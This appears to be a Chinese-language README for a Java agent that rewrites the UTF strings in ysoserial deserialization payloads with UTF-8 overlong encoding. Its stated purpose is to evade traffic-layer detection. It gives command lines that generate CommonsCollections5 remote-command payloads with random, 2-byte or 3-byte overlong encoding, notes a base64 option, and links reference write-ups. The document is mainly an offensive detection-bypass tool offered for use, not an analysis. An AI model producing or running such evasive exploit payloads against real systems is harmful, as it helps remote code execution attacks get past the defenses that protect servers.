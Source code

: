 # utf8 overlong agent

使用 agent 替换`writeUTF`和`writeUTFBody`函数，从而在序列化时生成utf8 overlong数据，绕过流量层检测。



# 用法

在生成反序列化payload工具启动时添加 javaagent 参数即可

```bash
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```



![image-20240423164153836](./assets/image-20240423164153836.png)



可以使用base64编码一下，然后拷贝出来使用

![image-20240423164533367](./assets/image-20240423164533367.png)



默认采用随机混合2、3字节的utf8 overlong编码，每次生成的payload都不一样

![image-20240423164808031](./assets/image-20240423164808031.png)



若想固定使用2或3字节utf8 overlong，指定agent参数即可：

```bash
# 2 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=2 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"

# 3 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=3 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```





# 参考
https://xz.aliyun.com/t/14300

https://en.wikipedia.org/wiki/UTF-8

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

https://github.com/Whoopsunix/utf-8-overlong-encoding

https://t.zsxq.com/ToFaL

https://t.zsxq.com/Yg2cc
